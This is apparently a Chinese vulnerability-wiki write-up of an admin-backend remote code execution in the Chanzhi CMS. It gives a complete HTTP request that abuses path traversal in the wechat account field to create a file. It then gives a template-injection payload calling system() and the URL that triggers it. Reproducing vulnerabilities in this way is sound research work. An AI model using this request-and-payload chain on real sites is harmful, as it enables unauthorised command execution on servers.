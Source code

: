 禅知 后台getshell
=================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

后台存在模板编辑，但是如果保存的话需要创建一个/system\\tmp\\xjrg.txt文件，那么我们找到一个可以创建任意文件的地方就

![](/Users/aresx/Documents/VulWiki/.resource/禅知后台getshell/media/rId24.png)

在/system/module/wechat/model.php

![](/Users/aresx/Documents/VulWiki/.resource/禅知后台getshell/media/rId25.png)

\$qrcodeFile未过滤目录穿越导致可以去其他地方创建文件夹通过微信设置原始ID的地方写入穿越的文件路径

![](/Users/aresx/Documents/VulWiki/.resource/禅知后台getshell/media/rId26.png)

    POST /chanzhieps/www/admin.php?m=wechat&f=edit&publicID=1 HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    DNT: 1
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Referer: http://localhost/chanzhieps/www/admin.php?m=wechat&f=edit&publicID=1
    Content-Length: 120
    Cookie: adminsid=ae8tu3s80j8cfvh2hkgu41bbig; adminLang=zh-cn; adminDevice=desktop; theme=default; currentGroup=setting; frontsid=eaa0tdicbqfq0lurm89t3n9fvn; frontLang=zh-cn; frontDevice=desktop
    X-Forwarded-For: 8.8.8.8
    Connection: close

    type=subscribe&name=123&account=..%2F..%2F..%2Fsystem%5Ctmp%5Cxjrg.txt%5C1&appID=789&appSecret=100&token=222&certified=0

点一下二维码，再随便传一张图片，可以看到创建了一个xjrg.txt文件夹

![](/Users/aresx/Documents/VulWiki/.resource/禅知后台getshell/media/rId27.png)

现在我们再去编辑模板，{!echo(system(\'ipconfig\'))},可以直接写入一句话

![](/Users/aresx/Documents/VulWiki/.resource/禅知后台getshell/media/rId28.png)

然后在访问前台

http:/0-sec.org/chanzhieps/www/index.php/sitemap/

![](/Users/aresx/Documents/VulWiki/.resource/禅知后台getshell/media/rId29.png)
